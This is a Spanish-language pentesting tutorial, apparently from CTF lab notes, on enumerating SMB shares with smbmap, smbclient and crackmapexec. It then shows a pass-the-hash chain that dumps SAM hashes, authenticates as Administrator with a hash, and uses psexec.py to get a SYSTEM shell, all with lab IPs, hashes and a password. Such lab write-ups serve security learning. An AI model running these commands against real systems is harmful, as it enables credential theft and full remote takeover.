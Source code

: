 # ENUMERACION CON SMB PORT 445
## Enumeración de recursos compartidos SMP

### ¿Qué es un SMB?
---

El puerto445 es "SMB sobre IP". SMB son las siglas de 'Server Message Blocks'. En lenguaje moderno, Server Message Block también se conoce como Common Internet File System. El sistema funciona como un protocolo de red de capa de aplicación utilizado principalmente para ofrecer acceso compartido a archivos, impresoras, puertos serie y otros tipos de comunicaciones entre nodos de una red.
Por ejemplo, en Windows, SMB puede ejecutarse directamente sobre TCP/IP sin necesidad de NetBIOS sobre TCP/IP. Esto utilizará, como señalas, el puerto 445. En otros sistemas, encontrarás servicios y aplicaciones que utilizan el puerto 139. Esto significa que SMB se ejecuta con NetBIOS sobre TCP/IP.

### Scanear Recursos Compartidos smbmap

```ruby
┌──(root㉿kali)-[/home/…/CTF/vulnhub/venom1/nmap]
└─# smbmap -H 192.168.200.150 
[+] Guest session       IP: 192.168.200.150:445 Name: venom.box                                         
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (venom server (Samba, Ubuntu))
                                                                                                                       
```
En la ejecución anterior se puede evidenciar que existe recursos compartidos, sin embargo, no hay accesos.

### Scanear Recursos Compartidos smbclient

Se puede listar `flag -L`los recusros compartidos con  al herramienta smclient, usando el usuario anonymous o null session, `smbclient -L 10.10.10.3 -N` en caso de presentar error `NT-STATUS_CONNECTION_DISCONENECTED`, ese error puede se puede solucionar agregando el parametro `--options` como esta acontinuación.
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/Lame/nmap]
└─# smbclient -L 10.10.10.3 -N --option 'client min protocol = NT1'
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME
```
Cuando se encuantra recursos compartidos con accesos mediante null session, se puede autenticar a la carpeta, cona al herramienta `smbclient`.
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/Lame/nmap]
└─# smbclient //10.10.10.3/tmp -N                                     
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Jan 24 12:25:55 2023
  ..                                 DR        0  Sat Oct 31 02:33:58 2020
  .ICE-unix                          DH        0  Tue Jan 24 10:55:30 2023
  vmware-root                        DR        0  Tue Jan 24 10:55:58 2023
  .X11-unix                          DH        0  Tue Jan 24 10:55:55 2023
  .X0-lock                           HR       11  Tue Jan 24 10:55:55 2023
  5563.jsvc_up                        R        0  Tue Jan 24 10:56:32 2023
  vgauthsvclog.txt.0                  R     1600  Tue Jan 24 10:55:28 2023

                7282168 blocks of size 1024. 5386540 blocks available
smb: \> 
```
### Scanear Recursos Compartidos crackmapexec 
Aprovechando que el puerto smb esta abierto podemo ennumerar los recursos compartidos utilzando crackmapexec.
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/legacy/content]
└─# crackmapexec smb 10.10.10.4
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing SMB protocol database
[*] Initializing FTP protocol database
[*] Initializing MSSQL protocol database
[*] Initializing WINRM protocol database
[*] Initializing SSH protocol database
[*] Initializing RDP protocol database
[*] Initializing LDAP protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         10.10.10.4      445    LEGACY           [*] Windows 5.1 (name:LEGACY) (domain:legacy) (signing:False) (SMBv1:True)
```
Para listar los recursos compartidos
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/legacy/content]
└─# crackmapexec smb 10.10.10.4 -u 'null' -p '' --shares           
SMB         10.10.10.4      445    LEGACY           [*] Windows 5.1 (name:LEGACY) (domain:legacy) (signing:False) (SMBv1:True)
SMB         10.10.10.4      445    LEGACY           [-] legacy\null: STATUS_LOGON_FAILURE 
```                                                                                          
### Pass The Hash

"Pass the Hash" (PtH) es una técnica utilizada por los atacantes en ciberseguridad para obtener acceso a sistemas y redes mediante el uso de hashes de contraseñas en lugar de la contraseña real. En lugar de adivinar o romper la contraseña de un usuario, los atacantes utilizan herramientas para extraer los hashes de las contraseñas almacenados en un sistema y luego utilizar esos hashes para autenticarse en el sistema como si tuvieran la contraseña real. Esto les permite obtener acceso a los recursos protegidos por el usuario afectado.
```java
┌──(root㉿kali)-[/home/s3cur1ty3c]
└─# crackmapexec smb 10.10.10.152 -u 'usuariodos' -p 'p3nT3st!' --sam
SMB         10.10.10.152    445    NETMON           [*] Windows Server 2016 Standard 14393 x64 (name:NETMON) (domain:netmon) (signing:False) (SMBv1:True)
SMB         10.10.10.152    445    NETMON           [+] netmon\usuariodos:p3nT3st! (Pwn3d!)
SMB         10.10.10.152    445    NETMON           [+] Dumping SAM hashes
SMB         10.10.10.152    445    NETMON           Administrator:500:aad3b435b51404eeaad3b435b51404ee:d0f73603a4d96655430fdf02de4afaee:::
SMB         10.10.10.152    445    NETMON           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.10.152    445    NETMON           DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.10.152    445    NETMON           usuariodos:1000:aad3b435b51404eeaad3b435b51404ee:6df6a842ba1250d3fbf4ab6b3d54bcbc:::
SMB         10.10.10.152    445    NETMON           [+] Added 4 SAM hashes to the database
```
Con las hashes obtenidos se puede hacer un pass the hashses, con crackmapexec.
```java
┌──(root㉿kali)-[/home/s3cur1ty3c/CTF/HTB]
└─# crackmapexec smb 10.10.10.152 -u 'Administrator' -H 'd0f73603a4d96655430fdf02de4afaee'
SMB         10.10.10.152    445    NETMON           [*] Windows Server 2016 Standard 14393 x64 (name:NETMON) (domain:netmon) (signing:False) (SMBv1:True)
SMB         10.10.10.152    445    NETMON           [+] netmon\Administrator:d0f73603a4d96655430fdf02de4afaee (Pwn3d!)
```
Con la herramienta `psexec.py`, se puede utilizar el hashs para iniciar una sesion mediante una shell.

```java
┌──(root㉿kali)-[/home/s3cur1ty3c/CTF/HTB]
└─# psexec.py WORKGROUP/Administrator@10.10.10.152 -hashes :d0f73603a4d96655430fdf02de4afaee
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation
[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file OHhKIKGU.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service NKHY on 10.10.10.152.....
[*] Starting service NKHY.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>
```